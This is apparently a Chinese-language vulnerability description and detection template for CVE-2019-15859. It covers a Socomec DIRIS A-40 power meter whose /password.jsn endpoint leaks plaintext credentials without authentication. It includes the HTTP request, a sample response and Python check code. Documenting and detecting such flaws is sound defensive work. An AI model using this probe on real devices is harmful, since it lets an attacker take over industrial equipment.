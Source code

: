 # Socomec DIRIS A-40 设备密码泄露漏洞（CVE-2019-15859）

## 漏洞简介
Socomec DIRIS A-40 设备（固件版本 48250501 之前）存在密码泄露漏洞。攻击者可通过未授权访问 `/password.jsn` 接口，直接获取设备的用户名和密码，进而实现完全控制。

## 影响范围
- 受影响产品：Socomec DIRIS A-40（固件 48250501 之前）
- CPE: `cpe:2.3:o:socomec:diris_a-40_firmware:*:*:*:*:*:*:*:*`

## 漏洞原理
Web 接口 `/password.jsn` 未做访问控制，攻击者可直接访问并获取包含明文用户名和密码的 JSON 数据，导致敏感信息泄露。

## 利用方式与攻击流程
1. 攻击者无需认证，直接访问设备的 `/password.jsn` 接口。
2. 响应返回包含用户名和密码的 JSON 数据。
3. 攻击者据此可登录设备，进行未授权操作。

## 探测原理与流程
### 请求包示例
```http
GET /password.jsn HTTP/1.1
Host: target.com
```

### 响应示例
```json
HTTP/1.1 200 OK
Content-Type: text/json

{
  "username": "admin",
  "password": "admin123"
}
```

### 判定逻辑
- 响应状态码为 200。
- 响应头包含 `text/json`。
- 响应体中包含 `username` 和 `password` 字段。

### 伪代码
```python
resp = requests.get('http://target.com/password.jsn')
if resp.status_code == 200 and resp.headers.get('Content-Type') == 'text/json' and all(x in resp.text for x in ["username", "password"]):
    print('存在密码泄露漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[直接访问 /password.jsn]
    B --> C[检查响应头和内容]
    C --> D{是否包含用户名和密码?}
    D -- 否 --> E[不存在漏洞]
    D -- 是 --> F[存在密码泄露漏洞]
```

## 参考链接
- [Full Disclosure 邮件列表](https://seclists.org/fulldisclosure/2019/Oct/10)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2019-15859)
- [Packet Storm Security](http://packetstormsecurity.com/files/154764/Socomec-DIRIS-A-40-Password-Disclosure.html)
- [Socomec 官方产品页](https://www.socomec.com/single-circuit-multifunction-meters_en.html) 